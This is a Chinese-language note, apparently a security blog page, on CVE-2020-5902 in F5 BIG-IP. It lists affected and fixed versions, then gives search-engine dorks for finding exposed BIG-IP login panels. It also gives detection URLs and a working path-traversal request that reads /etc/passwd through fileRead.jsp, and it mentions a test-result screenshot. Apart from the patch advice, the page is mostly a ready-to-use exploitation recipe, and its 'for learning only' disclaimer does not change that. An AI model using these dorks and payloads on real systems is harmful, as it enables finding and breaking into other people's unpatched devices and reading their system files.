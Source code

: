 ```yaml
---
title: cve-2020-5902
tags: 安全
---
```


[toc]

*`警告,用于学习,切勿做破坏,造成的后果本人概不负责`*

> 2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。
>
> 未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

# 漏洞详情

`F5 BIG-IP` 是美国`F5`公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。

在 `F5 BIG-IP` 产品的流量管理用户页面 (TMUI)/配置实用程序的特定页面中存在一处远程代码执行漏洞。

# 影响版本

- BIG-IP 15.x: 15.1.0/15.0.0
- BIG-IP 14.x: 14.1.0 ~ 14.1.2
- BIG-IP 13.x: 13.1.0 ~ 13.1.3
- BIG-IP 12.x: 12.1.0 ~ 12.1.5
- BIG-IP 11.x: 11.6.1 ~ 11.6.5

# 修复建议

升级到以下版本

- BIG-IP 15.x: 15.1.0.4
- BIG-IP 14.x: 14.1.2.6
- BIG-IP 13.x: 13.1.3.4
- BIG-IP 12.x: 12.1.5.2
- BIG-IP 11.x: 11.6.5.2

# 目标搜索

> 注：请将下面的%26替换为&
>
> **shodan**
>  http.favicon.hash:-335242539
>
> http.title:"BIG-IP%26reg;- Redirect"
>
> **fofa**
>  title="BIG-IP%26reg;- Redirect"
>
> **censys**
>  443.https.get.body_sha256:5d78eb6fa93b995f9a39f90b6fb32f016e80dbcda8eb71a17994678692585ee5
>
> 443.https.get.title:"BIG-IP%26reg;- Redirect"
>
> **google**
>  inurl:"tmui/login.jsp"
>
> intitle:"BIG-IP" inurl:"tmui"

# 漏洞检测

```http
/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=a
```

# 利用

```http
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

# 测试结果

![5902](/img/5902.png)